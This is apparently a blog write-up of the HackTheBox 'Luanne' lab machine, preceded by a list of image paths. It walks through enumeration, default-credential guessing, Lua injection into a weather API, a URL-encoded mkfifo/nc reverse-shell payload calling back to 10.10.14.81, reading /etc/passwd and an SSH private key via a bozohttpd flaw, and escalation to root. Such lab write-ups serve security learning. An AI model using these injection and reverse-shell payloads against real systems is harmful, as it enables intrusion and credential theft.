










date: 2020-12-03 updated: 2020-12-14
HTB_Luanne writeup Luanne :Easy-level BOX.lua nne,so where is the parame?
Summary CVE-2010-2320 、Enum、lua Bourne shell、default password Guess、CTF like
Enum nmap 1 2 $ nmap -sS -Pn -n -open --min-hostgroup 1024 --host-timeout 20 -T4 -v 10.10.10.218

dirb/gobuster 1 $ dirb/gobuster http://10.10.10.218/
Port Port-9001 It hints us “default”,I test supervisor default username&password:”user:123” and it works!

Port-8000 1 $ dirb/gobuster http://10.10.10.218/weather
As we know it works ‘.lua’,lets test lua injection
1 $ http://10.10.10.218/weather/forecast?city=London%27)print (

Burp : "attempt to call a nil value",it works so let's further!
1 2 $ http://10.10.10.218/weather/forecast?city=London')os.execute(' cat /etc/passwd')-- $ http://10.10.10.218/weather/forecast?city=London%27)os.execute(%27rm+%2ftmp%2fvolen%3bmkfifo+%2ftmp%2fvolen%3bcat+%2ftmp%2fvolen|%2fbin%2fsh+-i+2%3E%261|nc+10.10.14.81+6666+%3E%2ftmp%2fvolen%3b%27)--

Thanks to @singleye about mkfifo ,now you get shell!
User 1 2 $ ls -al && cat .htpasswdhash

now we can use it on port 80:”webapi_user:iamthebest”,but get nothing useful here,so we should get other things in the shell.
1 $ curl -u webapi_user:iamthebest -I http://127.0.0.1:3001

We notice that “Server:bozohttpd”,thanks to CVE-2010-2320
1 $ curl -u webapi_user:iamthebest http://127.0.0.2:3001/~r.michaels/id_rsa

I forgot add the ‘/.ssh’ path but get the right result!Lucky(Really?Too CTF!).
1 2 $ ssh -i id_rsa r.michaels@10.10.10.218

Now we get user.
Root Enum is one of your best friend!
netpgp 1 $ netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/backup.tar.gz
Hurry Hurry Hurry up!I don’t know why it will be deleted in 1 min!
1 2 3 $ tar -xf backup.tar.gzcd /devel-2020-09-16/www

Get:’littlebear’
1 2 3 $ doas -u root /bin/sh

ROOT!